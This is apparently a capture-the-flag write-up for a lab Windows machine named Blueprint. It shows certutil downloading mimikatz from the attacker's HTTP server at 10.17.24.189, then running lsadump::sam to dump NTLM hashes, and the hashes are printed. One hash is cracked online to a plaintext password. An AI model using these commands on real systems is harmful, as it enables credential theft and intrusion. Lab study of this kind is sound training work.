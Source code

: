 
- copied the minikatz file in current directory using
```
~/Desktop/THM/blueprint ▓▒░ cp /usr/share/mimikatz/Win32/mimikatz.exe .
```
and
`python3 -m http.server`

- now using the certutil command syntax

```
certutil.exe -urlcache -f http://YOUR_IP:8000/mimikatz.exe mimi.exe
```


for us it will be


```
certutil.exe -urlcache -f http://10.17.24.189:8000/mimikatz.exe mimi.exe
```



- we then run the file `C:\Windows\Temp>mimi.exe`
followed with `mimikatz # lsadump::sam`
```
mimikatz # lsadump::sam
Domain : BLUEPRINT
SysKey : 147a48de4a9815d2aa479598592b086f
Local SID : S-1-5-21-3130159037-241736515-3168549210

SAMKey : 3700ddba8f7165462130a4441ef47500

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 549a1bcb88e35dc18c7a0b0168631411

RID  : 000001f5 (501)
User : Guest

RID  : 000003e8 (1000)
User : Lab
  Hash NTLM: 30e87bf999828446a1c1209ddde4c450
```


- able to crack the hash at https://hashes.com/en/decrypt/hash
`30e87bf999828446a1c1209ddde4c450:googleplus`








